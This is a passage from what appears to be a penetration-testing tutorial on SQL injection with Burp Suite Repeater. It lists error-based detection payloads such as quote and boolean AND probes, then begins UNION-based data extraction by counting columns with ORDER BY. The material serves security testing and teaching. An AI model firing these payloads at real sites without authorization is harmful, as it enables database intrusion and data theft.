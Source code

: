 
## **2. Manual Testing (Repeater & Scanner)**  

### **A. Error-Based SQLi Detection**  
**Objective:** Trigger SQL errors to confirm injection.  

**Steps:**  
1. **Intercept a request** (e.g., `GET /product?id=1`).  
2. **Send to Repeater** (`Ctrl+R`).  
3. **Test with malicious inputs:**  

<table>
   <thead>
      <tr>
         <th>Payload</th>
         <th>Expected Behavior (Check Response)</th>
      </tr>
   </thead>
   <tbody>
      <tr>
         <td><code>id=1'</code></td>
         <td>SQL syntax error (MySQL: <code>You have an error...</code>)</td>
      </tr>
      <tr>
         <td><code>id=1"</code></td>
         <td>Error if app uses double quotes</td>
      </tr>
      <tr>
         <td><code>id=1'-- -</code></td>
         <td>If page loads normally, injection likely</td>
      </tr>
      <tr>
         <td><code>id=1' AND 1=1-- -</code></td>
         <td>Page loads normally (TRUE condition)</td>
      </tr>
      <tr>
         <td><code>id=1' AND 1=2-- -</code></td>
         <td>Page breaks (FALSE condition)</td>
      </tr>
   </tbody>
</table>

**Burp Tip:** Use **"Highlight"** in Repeater to spot differences.  

---

### **B. UNION-Based SQLi (Data Extraction)**  
**Objective:** Extract DB records via `UNION SELECT`.  

**Steps:**  
1. **Find the number of columns** (using `ORDER BY`):  
   ```sql
   id=1' ORDER BY 1-- -  
   id=1' ORDER BY 2-- -  
   ...  
   ```
   - When `ORDER BY X` fails, columns = `X-1`.  
